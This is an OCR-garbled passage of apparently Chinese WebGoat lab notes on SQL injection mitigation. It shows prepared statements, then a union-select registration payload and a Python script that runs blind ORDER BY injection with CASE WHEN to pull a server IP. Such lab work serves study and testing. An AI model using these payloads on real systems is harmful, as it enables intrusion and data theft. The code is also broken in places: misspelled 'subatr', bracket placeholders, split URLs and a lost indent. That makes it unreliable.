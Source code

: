 ```python
SQL Injection(mitigation)
防御SQL注入，，其实就是session，参数绑定，存储过程这样的注入。
//利用session防御，session内容正常情况下是用户无法修改
//select * from users where user = "'" + session.getAttribute("UserID") + "'";
//参数绑定方式，利用了sql的预编译技术
String query = "SELECT * FROM users WHERE last_name=?";
PreparedStatement statement = connection.prepareStatement(query);
statement.setString(1, accountName);
ResultSet results = statement.executeQuery();
上面说的方式也不是能够绝对的进行sql注入防御，只是减轻。
如参数绑定方式可以使用下面方式绕过：
通过使用case when语句可以将order by后的orderExpression表达式中添加select语句。

import requests
from string import digits
chars = digits+"."

data1 = "username_reg=tomx'+union+select+password+from+sql_challenge_users+where+userid%3D'teom'--+-
&email_reg=7702%40qq.com&password_reg=123&confirm_password_reg=123"

headers = {
	'X-Requested-with': 'XMLHttpRequest'
}

cookies = {
	
}

i = 0
result = ""
proxy={"http": "http://127.0.0.1:8888"}
while True:
	i += 1
	temp = result
	for char in chars:
		vul_url = "http://localhost:8080/WebGo
at/SqlInjectionMitigations/serverscolumn=case%20
when%20(select%20subatr(ip,[0],1)='[1]'%20where%20hostna
me='webgoat-prd')%20then%20hostname%20else%20mac%20end".format(i, char)
		resp = requests.get(vul_url, headers=headers,
cookies=cookies, proxies=proxy)
		#print(resp.json())
		if 'webgoat-acc' in resp.json()[0]['hostname']:
			result += char
	print(result)
	if temp == result:
	break
```

